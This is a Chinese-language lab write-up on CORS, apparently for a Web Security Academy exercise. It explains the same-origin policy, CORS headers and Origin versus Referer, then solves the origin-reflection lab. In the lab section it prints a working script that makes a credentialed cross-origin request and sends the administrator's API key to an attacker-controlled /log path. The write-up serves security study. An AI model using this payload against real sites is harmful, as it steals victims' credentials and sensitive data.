## 前置知识

### 靶场给的知识：

跨域资源共享 (CORS) 是一种浏览器机制，允许对位于给定域之外的资源进行受控访问。它扩展了同源策略 (SOP)，并增加了灵活性。然而，如果网站的 CORS 策略配置和实施不当，也可能导致跨域攻击。CORS 无法防御跨域攻击，例如跨站请求伪造 (CSRF)。

同源策略非常严格，因此人们设计了各种方法来规避这些限制。许多网站与子域名或第三方网站的交互需要完全的跨源访问。使用跨源资源共享 (CORS) 可以有控制地放宽同源策略。

跨源资源共享协议使用一套 HTTP 标头来定义可信的 Web 源及其相关属性，例如是否允许经过身份验证的访问。这些属性会在浏览器与其尝试访问的跨源网站之间的标头交换中进行组合。

许多现代网站使用 CORS 来允许来自子域名和受信任的第三方的访问。这些网站对 CORS 的实现可能存在错误，或者为了确保一切正常而过于宽松，这可能会导致可利用的漏洞。

### 其他：

#### 1、origin和referer的区别：

referer：

当前请求是从哪个页面链接过来的

格式如：

`Referer: https://example.com/page1.html`

包括协议（`http://` 或 `https://`）、主机名、端口（如有）、以及完整的路径和查询参数。

当用户从一个页面跳转到另一个页面时，浏览器会**自动在请求头中添加 `Referer`**

origin：

`Origin` 头部主要用于 **CORS（跨域资源共享）** 请求中，表示**发起请求的源（协议 + 域名 + 端口）**，但不包含路径和查询参数。

#### 2、同源策略 SOP：

如果两个 URL 的 `protocol、port 和 host` 都相同的话，则这两个 URL 是同源。

- 当前页面：`https://shop.com/product`
- 请求地址：`https://shop.com/api/data` --》同源

同源策略到底限制了什么？

答：**同源策略并不是完全禁止跨域请求，而是限制“读取响应”**。

浏览器允许Javascript向任何域发送HTTP请求，但是如果当前页面是 `https://shop.com`，而响应来自 `https://api.bank.com`，**浏览器会阻止你的 JavaScript 读取响应内容**，除非服务器明确允许。服务器必须在响应头中明确表示：“我允许 `shop.com` 读取这个响应。”

CORS就是解决这个问题，服务器端给响应添加头信息

```
Access-Control-Allow-Origin 必填 允许请求的域
Access-Control-Allow-Methods 必填 允许请求的方法
Access-Control-Allow-Headers 可选 预检请求后，告知发送请求需要有的头部
Access-Control-Allow-Credentials 可选 表示是否允许发送cookie，默认false；
Access-Control-Max-Age 可选 本次预检的有效期，单位：秒；

```

由于是服务器自主选择相应域，就相对安全了。此时就可以访问这个相应了。



## 靶场：具有基本origin反映的 CORS 漏洞

从请求包可以看出是允许发送cookie的，但是没显示允许请求的域

![image-20250820230643057](assets/image-20250820230643057.png)

加上Origin头：

![image-20250820230812871](assets/image-20250820230812871.png)

可以看到没有对允许请求的域做任何限制

这时就可以搭建攻击者服务器，并放入如下恶意代码：

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','0a90009904def403801b9e5600910022.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

`withCredentials = true`：默认情况下，跨域请求不会带上Cookies，但是加上 `req.withCredentials = true` 后，请求会带上受害者的登录 Cookie。所以，这个请求相当于由 **受害者本人** 在访问 `/accountDetails`。

`this.responseText`：受害者是 **administrator** 并且登录着，所以 `/accountDetails` 返回的数据包含 `administrator` 的敏感信息，比如 **API key**。因为 CORS 被滥配，攻击者的脚本能直接拿到响应数据。

`location='/log?key='+this.responseText`：这一步就是 **把窃取到的数据发回攻击者的服务器**（假设攻击者控制 `/log` 路径）。

1、管理员访问了恶意页面（里面有上面这段 `<script>`）。

2、脚本自动向目标站点 `/accountDetails` 发起带 Cookie 的请求。

3、由于目标站点的 **CORS 配置不当**，攻击者页面的 JS 能读取响应。

4、响应里包含管理员的 API key。

5、脚本再把这个 key 发给攻击者的服务器